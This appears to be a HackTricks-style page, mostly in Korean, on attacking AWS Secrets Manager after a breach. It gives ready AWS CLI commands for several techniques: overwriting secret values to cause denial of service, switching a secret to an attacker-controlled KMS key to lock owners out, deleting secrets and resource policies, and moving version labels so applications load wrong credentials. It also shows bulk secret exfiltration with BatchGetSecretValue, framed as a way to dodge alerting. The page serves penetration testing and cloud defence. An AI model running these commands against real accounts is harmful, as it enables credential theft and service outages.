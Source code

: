 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

자세한 내용은 다음을 확인하세요:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Secrets 읽기

The **Secrets 자체가 민감한 정보입니다**, [check the privesc page](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) to learn how to read them.

### DoS — Secret 값 변경

secret의 값을 변경하면 해당 값에 의존하는 모든 시스템을 **DoS할 수 있습니다.**

> [!WARNING]
> 이전 값도 저장되므로 이전 값으로 쉽게 되돌릴 수 있습니다.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

만약 attacker가 secretsmanager:UpdateSecret 권한을 가지고 있다면, 그들은 secret이 attacker가 소유한 KMS key를 사용하도록 구성할 수 있다. 그 key는 처음에 누구나 접근하고 사용할 수 있도록 설정되어 있어서 secret을 새로운 key로 업데이트하는 것이 가능하다. 만약 그 key에 접근할 수 없었다면 secret을 업데이트할 수 없었을 것이다.

secret의 key를 변경한 뒤, attacker는 자신의 key 구성을 변경하여 자신만 접근할 수 있도록 만든다. 이렇게 하면 이후 버전의 secret들은 새로운 key로 암호화되고, 해당 key에 대한 접근이 없기 때문에 secret을 가져오는 능력을 잃게 된다.

이 접근 불가 상태는 secret의 내용이 변경된 이후의 이후 버전들에서만 발생한다는 점을 주의해야 한다. 현재 버전은 여전히 원래의 KMS key로 암호화되어 있기 때문이다.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

비밀을 삭제하기 위한 최소 일수는 7일입니다
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

secret을 복원할 수 있습니다. 이는 삭제 예약된 secret을 복원할 수 있게 해주는데, secret의 최소 삭제 기간은 7일이고 최대는 30일입니다. secretsmanager:GetSecretValue 권한과 함께 사용하면 해당 secret의 내용을 가져올 수 있습니다.

삭제 중인 secret을 복구하려면 다음 명령을 사용할 수 있습니다:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

이 액션은 누가 secret에 접근할 수 있는지를 제어하는 리소스 정책을 삭제할 수 있게 합니다. 리소스 정책이 특정 사용자 집합에 대한 접근을 허용하도록 구성되어 있었다면 이는 DoS로 이어질 수 있습니다.

리소스 정책을 삭제하려면:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

비밀의 상태는 비밀의 버전을 관리하는 데 사용됩니다. AWSCURRENT는 애플리케이션이 사용하는 활성 버전을 표시하고, AWSPREVIOUS는 필요 시 롤백할 수 있도록 이전 버전을 보관하며, AWSPENDING은 rotation 프로세스에서 현재 버전으로 만들기 전에 새 버전을 준비하고 검증하는 데 사용됩니다.

애플리케이션은 항상 AWSCURRENT 라벨이 붙은 버전을 읽습니다. 누군가 해당 라벨을 잘못된 버전으로 옮기면, 애플리케이션은 잘못된 자격증명을 사용하게 되어 실패할 수 있습니다.

AWSPREVIOUS는 자동으로 사용되지 않습니다. 그러나 AWSCURRENT가 삭제되거나 잘못 재지정되면 모든 것이 여전히 이전 버전으로 실행되는 것처럼 보일 수 있습니다.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Secrets Manager의 BatchGetSecretValue API를 악용하여 단일 요청으로 최대 20개의 secret을 가져올 수 있습니다. 이렇게 하면 각 secret마다 GetSecretValue를 반복 호출하는 것에 비해 API 호출 수를 크게 줄일 수 있습니다. filters (tags/name)가 사용되는 경우, ListSecrets 권한도 필요합니다. CloudTrail은 배치에서 가져온 각 secret에 대해 여전히 GetSecretValue 이벤트를 하나씩 기록합니다.

Required permissions
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue (각 대상 secret에 대해)
- secretsmanager:ListSecrets (--filters 사용 시)
- kms:Decrypt (secrets에서 사용된 CMKs에 대해, aws/secretsmanager를 사용하지 않는 경우)

> [!WARNING]
> 권한 `secretsmanager:BatchGetSecretValue`만으로는 secret을 가져오기에는 충분하지 않습니다. 가져오려는 각 secret에 대해 `secretsmanager:GetSecretValue`도 필요합니다.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate — 필터(태그 key/value 또는 이름 접두사)를 통해
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
부분 실패 처리
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
영향
- 적은 API 호출로 많은 secrets를 빠르게 “smash-and-grab”하여 GetSecretValue의 급증에 맞춰진 alerting을 우회할 수 있음.
- CloudTrail 로그에는 배치로 가져온 각 secret마다 여전히 하나의 GetSecretValue 이벤트가 포함됩니다.
{{#include ../../../../banners/hacktricks-training.md}}
